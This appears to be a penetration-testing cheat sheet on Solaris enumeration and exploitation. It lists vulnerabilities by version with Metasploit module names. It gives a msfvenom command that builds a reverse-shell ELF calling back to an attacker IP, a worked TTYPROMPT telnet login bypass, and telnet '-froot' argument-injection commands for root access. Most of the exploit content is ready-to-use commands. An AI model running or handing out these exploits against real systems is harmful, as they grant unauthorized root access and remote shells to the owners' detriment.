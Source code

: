 ```yaml
---
description: Information gathering and exploitation
---
```


# Solaris

## Enumeration

**View patches** 

`showrev -p` 

**Installed packages:** 

`Pkginfo` 

**Show IP interface:** 

`Ifconfig -a` 

**Process list:** 

`/usr/ucb/ps -auxww` 

## Common Solaris Vulnerabilities

### Solaris 7

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* \*\*ttyprompt TELNET - buffer overflow in solaris login - manual through telnet client 
* sendmail\_exec LPD - line printer daemon buffer overflow - allows root 
* heap\_noir DTSPCD - CDE common desktop environment heap overflow TCP port 6112, runs with root 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### Solaris 8

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* \*\*ttyprompt TELNET - buffer overflow in solaris login - manual through telnet client 
* sendmail\_exec LPD - line printer daemon buffer overflow - allows root 
* heap\_noir DTSPCD - CDE common desktop environment heap overflow TCP port 6112, runs with root 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root. 
* no exploit - sadmind\_adm\_build\_path SADMIND - stack buffer overflow in adm\_build\_path\(\) function. 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### solaris 9:

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root. 
* sadmind\_adm\_build\_path SADMIND - stack buffer overflow in adm\_build\_path\(\) function. 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### Solaris 10

* fuser TELNET - authentication bypass through -f command - can be manually exploited 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root.

### Solaris 11

* fuser TELNET - authentication bypass through -f command - can be manually exploited

## **Exploits**

### **Solaris exploits**

https://github.com/0xdea/exploits 

### **Msfvenom payload** 

`msfvenom -p solaris/x86/shell_reverse_tcp lhost=10.10.14.6 lport=5555 -f elf > /root/Desktop/raj.elf`

###  TTYPROMPT exploit

Solaris TTYPROMPT Security Vulnerability \(Telnet\) 

This vulnerability is very simple to exploit, since it does not require any code to be compiled by an attacker. The vulnerability only requires the attacker to simply define the environment variable TTYPROMPT to a 6-character string, inside telnet. Jonathan believes this overflows an integer inside login, which specifies whether the user has been authenticated \(just a guess\). 

Once connected to the remote host, you must type the username, followed by 64 " c"s, and a literal "\n". You will then be logged in as the user without any password authentication. This should work with any account except root \(unless remote root login is allowed\).  

**Example**:

```text
coma% telnet  
telnet> environ define TTYPROMPT abcdef  
telnet> o localhost  
SunOS 5.8  
bin c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c\n  
Last login: whenever  
$ whoami bin  
```

**Metasploit:**

 Solaris in.telnetd TTYPROMPT Buffer Overflow

```text
msf > use exploit/solaris/telnet/ttyprompt
```

### **Telnet exploit \(fuser\)**

exploits the argument injection vulnerability in the telnet daemon \(in.telnetd\) of Solaris 10 and 11.  

**Command line:** 

```text
telnet -l "-fbin" target_address 
Or also 
telnet -l "-froot" 192.168.0.1 
```

**Metasploit:** 

msf &gt; use exploit/solaris/telnet/fuser 

